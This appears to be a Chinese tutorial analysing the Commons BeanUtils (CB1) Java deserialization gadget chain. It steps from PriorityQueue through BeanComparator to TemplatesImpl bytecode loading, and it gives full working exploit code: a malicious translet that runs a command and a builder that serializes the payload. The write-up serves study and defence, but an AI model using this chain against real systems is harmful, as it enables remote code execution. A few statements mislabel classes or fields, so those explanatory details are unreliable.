










## 反序列化之CB链

文章推荐:

https://mp.weixin.qq.com/s/BktplS5xLw3OnOJxvRp2RQ

https://www.freebuf.com/articles/web/319397.html

https://mp.weixin.qq.com/s/t13Hd33Rak3IjmdtUQXMkQ

## CB简单了解

`CB`: 通常指的是 **Apache Commons BeanUtils** 这个库。它是Apache Commons项目中的一个子组件，提供了对常规JavaBean进行便捷操作的API，例如动态获取/设置属性、复制属性等。

在安全上下文中，我们谈论的“CB中的JavaBean利用”主要是指利用 **Commons BeanUtils** 库中的特定类，将其作为反序列化利用链（Gadget Chain）中的关键一环，最终实现远程代码执行（RCE）。

## JavaBean 基础知识

###  **定义**： 一个符合特定规范的Java类。

###  **规则**

  - 必须有一个无参公共构造函数。
  - 属性是私有的。
  - 通过公共的getter（`getPropertyName`）和setter（`setPropertyName`）方法来访问和修改属性。

### **Commons BeanUtils 的核心功能与安全隐患**

  BeanUtils的核心魅力在于它可以**通过属性名的字符串形式来动态操作JavaBean**。

  - `BeanUtils.getProperty(myBean, "name")`： 相当于调用 `myBean.getName()`
  - `BeanUtils.setProperty(myBean, "age", "25")`： 相当于调用 `myBean.setAge(25)`

  **安全隐患就源于这种“动态性”**。攻击者可以构造一个特殊的序列化数据，当被反序列化时，会触发BeanUtils去调用一个精心设计的getter或setter方法，而这个方法的功能远不止简单地返回或设置一个属性值。

### 代码演示

准备一个User类

```java
package CB1_chain;
public class User {
    public int id;
    public String name;
    private int age;
    public User(){
        System.out.println("无参构造");
    }
    public User(int id, String name, int age) {
        this.id = id;
        this.name = name;
        this.age = age;
        System.out.println("有参构造");
    }
    public int getId() {
        System.out.println("getId");
        return id;
    }
    public void setId(int id) {
        System.out.println("setId");
        this.id = id;
    }
    public String getName() {
        System.out.println("getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }
    public int getAge() {
        System.out.println("getAge");
        return age;
    }
    public void setAge(int age) {
        System.out.println("setAge");
        this.age = age;
    }
    public String toString() {
        return "User{" +
                "id=" + id +
                ", name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

然后再pom.xml中添加

```xml
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.4</version>
</dependency>
```

然后测试javabean

```java
package CB1_chain;
import org.apache.commons.beanutils.PropertyUtils;

import java.lang.reflect.InvocationTargetException;

public class BeanTest {
    public static void main(String[] args) throws InvocationTargetException, IllegalAccessException, NoSuchMethodException {
        PropertyUtils.getProperty(new User(1,"张三",18),"name");
    }
}
```

运行结果:

> 有参构造
> getName

在javabean中添加

```java
PropertyUtils.getProperty(new User(1,"张三",18),"age");
PropertyUtils.getProperty(new User(1,"张三",18),"id");
```

再次运行,输出

> 有参构造
> getName
> 有参构造
> getAge
> 有参构造
> getId

所以可以看到PropertyUtils.getProperty调用了`User.getName,User.getAge,User.getId`方法

 所以但我们在代码中尝试

```PropertyUtils.getProperty(new TemplatesImpl() ,"outputProperty");```

就会执行`TemplatesImpl.getOutputProperty`

基于此,引出它的链

## CB链分析

### 流程图






两张图一个效果

### 1. PriorityQueue类

根据图片CB链的调用,先查看PriorityQueue类

导入`import org.apache.commons.beanutils.PropertyUtils;`,然后进入PropertyUtils类,

这个类是jdk自带的类

这个类有一个readObject()方法



方法中有heapify()的调用,查看heapify()

```java
private void heapify() {
        for(int var1 = (this.size >>> 1) - 1; var1 >= 0; --var1) {
            this.siftDown(var1, this.queue[var1]);
        }

    }
```

方法中`this.size >>> 1`满足的话,就会调用`siftDown`,要满足this.size >>> 1,size需要>=2.

查看siftDown方法

```java
 private void siftDown(int var1, E var2) {
        if (this.comparator != null) {
            this.siftDownUsingComparator(var1, var2);
        } else {
            this.siftDownComparable(var1, var2);
        }

    }
```

然后满足`this.comparator != null`,就会调用`siftDownUsingComparator`,

查看`siftDownUsingComparator`



这个方法的`var6 < this.size && this.comparator.compare(var5, this.queue[var6]) > 0`这一句里判断条件里,执行了`comparator.compare`

### 2. JavaBean

查看compare(),点进去是个借口,查看他的实现



org.apache.commons.beanutils,这个类是commons.beanutils依赖中的类了

查看`compare`方法

```java
public int compare(Object o1, Object o2) {
    if (this.property == null) {
        return this.comparator.compare(o1, o2);
    } else {
        try {
            Object value1 = PropertyUtils.getProperty(o1, this.property);
            Object value2 = PropertyUtils.getProperty(o2, this.property);
            return this.comparator.compare(value1, value2);
        } catch (IllegalAccessException iae) {
            throw new RuntimeException("IllegalAccessException: " + iae.toString());
        } catch (InvocationTargetException ite) {
            throw new RuntimeException("InvocationTargetException: " + ite.toString());
        } catch (NoSuchMethodException nsme) {
            throw new RuntimeException("NoSuchMethodException: " + nsme.toString());
        }
    }
}
```

这个方法中有`Object value1 = PropertyUtils.getProperty(o1, this.property);`中的`PropertyUtils.getProperty`方法

到这一步就可以根据上面代码演示中的,如果我们控制传入的参数,达到上面代码演示中的效果.

就会执行`TemplatesImpl.getOutputProperties()`方法



图片中这三步就是调用TemplatesImpl类中getOutputProperties方法的原理

### 3. TemplatesImpl类

查看`TemplatesImpl`的`getOutputProperties()`方法

\

执行了`newTransformer`方法



这个方法中有`getTransletInstance`方法的执行,跟进去



_name设置为null,防止直接return

然后执行`this.defineTransletClasses();`,跟进去,



控制满足条件后执行,执行`this._class[i] = loader.defineClass(this._bytecodes[i]);`.

这里最终实现
动态类加载：使用 ClassLoader.defineClass 方法将字节码数组动态加载为Java类
恶意代码执行：将预先构造的恶意字节码转换为可执行的类实例.

由此触发漏洞

### CB链总结

`PriorityQueue.compare()`→`BeanComparator.compare()`→`TemplatesImpl.getOutputProperties()`

## 代码实现执行命令

### 恶意代码

写一个恶意程序,通过`javac`编译成`class`文件

```java
package calc;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class EvilT extends AbstractTranslet {
    public EvilT() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) {
    }
}
```

然后构造CB链实现弹出计算器

### 执行命令

```java
package calc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CBChainCalc {
    public static void main(String[] args) throws Exception {
        // 1. 读取恶意类字节码（核心：准备触发代码执行的"弹药"）
        // EvilT.class是预编译的恶意类，继承自AbstractTranslet，构造函数中包含Runtime.getRuntime().exec("calc.exe")
        byte[] maliciousBytecode = readClassFile("EvilT.class的绝对路径");

        // 2. 初始化TemplatesImpl并注入恶意字节码（关键：构建漏洞触发的"载体"）
        TemplatesImpl templates = new TemplatesImpl();
        // 设置_bytecodes字段：存储恶意类字节码，后续会被defineTransletClasses()加载
        setFieldValue(templates, "_bytecodes", new byte[][]{maliciousBytecode});
        // 设置_name字段：必须非null，否则getTransletInstance()会直接return null，中断调用链
        setFieldValue(templates, "_name", "CalcTemplate");
        // 设置_tfactory字段：提供TransformerFactory实例，避免getOutputProperties()中出现空指针
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        // 3. 创建BeanComparator（核心：构建属性访问的"触发器"）
        // BeanComparator实现了Comparator接口，其compare()方法会调用PropertyUtils.getProperty()
        BeanComparator comparator = new BeanComparator();

        // 4. 初始化PriorityQueue（关键：构建触发排序的"容器"）
        // 初始化容量为2的优先队列，传入comparator作为排序器
        PriorityQueue<Object> queue = new PriorityQueue<>(2, comparator);
        // 添加两个占位元素：目的是让队列size>=2，满足后续heapify()方法的执行条件（size >>> 1 >=1）
        queue.add(1);
        queue.add(1);

        // 5. 替换队列元素为templates（关键：将"载体"注入排序流程）
        // 通过反射获取PriorityQueue的底层数组（queue字段）
        Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        // 将数组中的元素替换为TemplatesImpl实例，后续排序时会对这些实例进行比较
        queueArray[0] = templates;
        queueArray[1] = templates;

        // 6. 设置BeanComparator的比较属性（核心：指定触发的方法路径）
        // 设置property为"outputProperties"，使得PropertyUtils.getProperty()会调用templates.getOutputProperties()
        setFieldValue(comparator, "property", "outputProperties");

        // 7. 序列化+反序列化触发漏洞（关键：利用反序列化执行排序逻辑）
        // PriorityQueue的readObject()方法会在反序列化时调用heapify()，启动整个调用链
        serializeAndDeserialize(queue);
    }

    /**
     * 读取.class文件的字节码
     * 作用：将预编译的恶意类（EvilT.class）转换为字节数组，供TemplatesImpl加载
     */
    private static byte[] readClassFile(String filePath) throws Exception {
        File file = new File(filePath);
        try (InputStream is = new FileInputStream(file);
             ByteArrayOutputStream bos = new ByteArrayOutputStream()) {

            byte[] buffer = new byte[1024];
            int len;
            while ((len = is.read(buffer)) != -1) {
                bos.write(buffer, 0, len);
            }
            return bos.toByteArray();
        }
    }

    /**
     * 反射设置私有字段值
     * 作用：突破访问权限，修改关键类的私有字段（如TemplatesImpl的_bytecodes、PriorityQueue的queue等）
     */
    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true); // 暴力反射：允许修改私有字段
        field.set(obj, value);
    }

    /**
     * 反射获取私有字段值
     * 作用：获取无法直接访问的私有字段（如PriorityQueue的底层数组queue）
     */
    private static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }

    /**
     * 序列化和反序列化对象
     * 核心作用：触发PriorityQueue的readObject()方法，该方法会调用heapify()启动排序流程
     * 为什么需要序列化？因为CB链是典型的反序列化漏洞利用链，漏洞点通常在反序列化阶段的对象恢复逻辑中
     */
    private static void serializeAndDeserialize(Object obj) throws Exception {
        // 序列化：将对象转换为字节流
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj); // 触发对象的序列化逻辑
        oos.close();

        System.out.println("Serialized!");

        // 反序列化：将字节流恢复为对象，此时会执行readObject()方法
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject(); // 触发PriorityQueue的readObject()，启动调用链
        ois.close();

        System.out.println("Deserialized!");
    }
}
    
```

运行就可以弹出计算器

### 代码分析

#### defineClass

从上面的链分析,我们最终的目标是通过`defineClass(this._bytecodes[i])`来执行命令

`defineClass`是`java.lang.ClassLoader`类中的一个**protected方法**，其核心作用是将**字节数组（byte[]）动态转换为一个Java类**。具体功能包括：

- **输入**：接收一个字节数组（`.class`文件的原始字节码）。
- **输出**：返回一个`Class<?>`对象，即加载到JVM中的类。

所以我们准备一个弹出计算器的恶意代码`EvilT.java`,通过`javac`编译成`.class`文件

然后在`CBChainCalc.java`中通过`readClassFile`方法

```java
private static byte[] readClassFile(String filePath) throws Exception {
    File file = new File(filePath);
    try (InputStream is = new FileInputStream(file);
         ByteArrayOutputStream bos = new ByteArrayOutputStream()) {

        byte[] buffer = new byte[1024];
        int len;
        while ((len = is.read(buffer)) != -1) {
            bos.write(buffer, 0, len);
        }
        return bos.toByteArray();
    }
}
```

调用`        byte[] maliciousBytecode = readClassFile("EvilT.class的绝对路径");`

将编译好的`.class`文件读取并返回字节数组的形式,.作为传入的字节码,然后defineClass将.class转换java类,初始化执行.

修改属性的方法`setFieldValue`,通过`        setFieldValue(templates, "_bytecodes", new byte[][]{maliciousBytecode});`调用

将字节数组传入`_bytecodes`,来通过`defineClass(this._bytecodes[i])`弹出计算器

#### defineTransletClasses();

往上一步,要触发`this.defineTransletClasses();`,需要`this._name`不为空,但是`this._class`为null.

所以创建`  TemplatesImpl templates = new TemplatesImpl();`,并且通过反射修改`this._name`的值,让其不为空.

修改属性值的功能由`setFieldValue`方法提供

```java
private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
    Field field = obj.getClass().getDeclaredField(fieldName);
    field.setAccessible(true); // 暴力反射：允许修改私有字段
    field.set(obj, value);
}
```

然后通过`setFieldValue(templates, "_name", "CalcTemplate");`让`this._name`不为null,来触发`defineTransletClasses()`的执行.

继续往上追,`this.newTransformer()`和`this.getTransletInstance()`都是正常的执行逻辑

然后`TemplatesImpl`链反向完,回到`JavaBean`

#### compare

从`PriorityQueue`进入`BeanComparator`的`compare`方法时,要触发`Object value1 = PropertyUtils.getProperty(o1, this.property);`的`getProperty`

首先需要`this.property`不为null,所以通过,并且`getProperty(o1, this.property)`里` this.property`的值需要为`outputProperties`,并且`o1`的值为`TemplatesImpl`.才能触发`TemplatesImpl.getProperty`

```java
BeanComparator comparator = new BeanComparator();
setFieldValue(comparator, "property", "outputProperties");
```

这个代码设置了`property`的值为`outputProperties`,至于`o1`的值,在接下来说到.

#### PriorityQueue中

这个链的入口是`PropertyUtils`类的object()方法,当触发反序列化的时候自动执行`readObject`.

在`readObject`方法中调用了`heapify`方法

在`heapify`方法中要执行`siftDown`方法

要触发 `siftDown(var1, this.queue[var1])`，需要:

> 1. PriorityQueue 的堆大小必须大于0
> 2. 循环会从最后一个非叶子节点开始，一直到根节点（索引0）
> 3. 对于每个非叶子节点，都会调用 siftDown 方法进行调整
>
> 在CB链的利用中，攻击者会构造一个包含 TemplatesImpl 实例的 PriorityQueue，并确保堆的大小满足上述条件，从而触发 siftDown 方法，进而触发后续的漏洞利用链。通常，攻击者会在堆中放入至少两个 TemplatesImpl 实例，这样 heapify 方法就会执行，并最终触发 compare 方法。

满足条件后执行`siftDown`方法,进入`siftDown`方法,需要触发`this.siftDownUsingComparator(var1, var2);`, 需要确保`this.comparator != null`满足

然后到`siftDownUsingComparator`方法. 最后触发`compare`,而在`siftDownUsingComparator`中,有两个`compare`方法触发点. 而在CB链中,触发漏洞的是第二个`compare`

这是因为

> - **第一次调用** 比较的是 `queue[var4]`和 `queue[var6]`，而这两个元素都是 `TemplatesImpl`实例（在 CB 链中，`queue[0]`和 `queue[1]`都被替换为 `templates`）。
> - **第二次调用** 比较的是 `var2`（当前节点）和 `var5`（最小子节点），此时：`var2`是 `TemplatesImpl`实例（`queue[0]`）。`var5`也是 `TemplatesImpl`实例（`queue[1]`）。
> - **`BeanComparator.compare()`** 会调用 `getOutputProperties()`，从而触发 `defineClass`加载恶意字节码。

最后触发到**`BeanComparator.compare()`**中.完成上面的步骤.

所以**PriorityQueue 构造流程**

**（1）初始化 PriorityQueue**

```
PriorityQueue<Object> queue = new PriorityQueue<>(2, comparator);
```

- **参数说明**：`2`：初始容量（至少 2 个元素才能触发 `heapify()`）。
- `comparator`：`BeanComparator`，用于比较元素。

**（2）填充队列**

```
queue.add(1);
queue.add(1);
```

- 先添加两个占位元素（`1`），确保 `size >= 2`。

**（3）替换队列元素为 TemplatesImpl**

```
Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = templates;
```

- 通过反射修改 `queue`数组，将元素替换为 `TemplatesImpl`实例。

**（4）设置 BeanComparator 的比较属性**

```
setFieldValue(comparator, "property", "outputProperties");
```

- 让 `BeanComparator.compare()`调用 `templates.getOutputProperties()`。

#### 总结

> PriorityQueue.readObject()
>     → heapify()
>         → siftDown()
>             → siftDownUsingComparator()
>                 → comparator.compare() // BeanComparator.compare()
>                     → PropertyUtils.getProperty()
>                         → TemplatesImpl.getOutputProperties()
>                             → defineTransletClasses()
>                                 → defineClass() // 加载恶意类
>                                     → <clinit> 或构造函数执行恶意代码


